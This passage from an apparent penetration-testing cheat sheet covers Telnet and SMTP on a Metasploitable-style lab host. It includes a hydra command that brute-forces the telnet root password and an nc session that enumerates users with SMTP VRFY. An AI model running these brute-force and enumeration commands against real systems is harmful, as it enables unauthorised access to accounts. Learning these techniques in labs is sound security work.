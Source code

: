 ### Port 23 - Telnet

Telnet is considered insecure mainly because it does not encrypt its traffic. Also a quick search in exploit-db will show that there are various RCE-vulnerabilities on different versions. Might be worth checking out.

**Brute force it**

You can also brute force it like this:

```text
hydra -l root -P /root/SecLists/Passwords/10_million_password_list_top_100.txt 192.168.1.101 telnet
```

### Port 25 - SMTP

SMTP is a server to server service. The user receives or sends emails using IMAP or POP3. Those messages are then routed to the SMTP-server which communicates the email to another server. The SMTP-server has a database with all emails that can receive or send emails. We can use SMTP to query that database for possible email-addresses. Notice that we cannot retrieve any emails from SMTP. We can only send emails.

Here are the possible commands

```text
HELO - 
EHLO - Extended SMTP.
STARTTLS - SMTP communicted over unencrypted protocol. By starting TLS-session we encrypt the traffic.
RCPT - Address of the recipient.
DATA - Starts the transfer of the message contents.
RSET - Used to abort the current email transaction.
MAIL - Specifies the email address of the sender.
QUIT - Closes the connection.
HELP - Asks for the help screen.
AUTH - Used to authenticate the client to the server.
VRFY - Asks the server to verify is the email user's mailbox exists.
```

#### Manually

We can use this service to find out which usernames are in the database. This can be done in the following way.

```text
nc 192.168.1.103 25                                                                               

220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
VRFY root
252 2.0.0 root
VRFY roooooot
550 5.1.1 <roooooot>: Recipient address rejected: User unknown in local recipient table
```

Here we have managed to identify the user `root`. But `roooooot` was rejected.
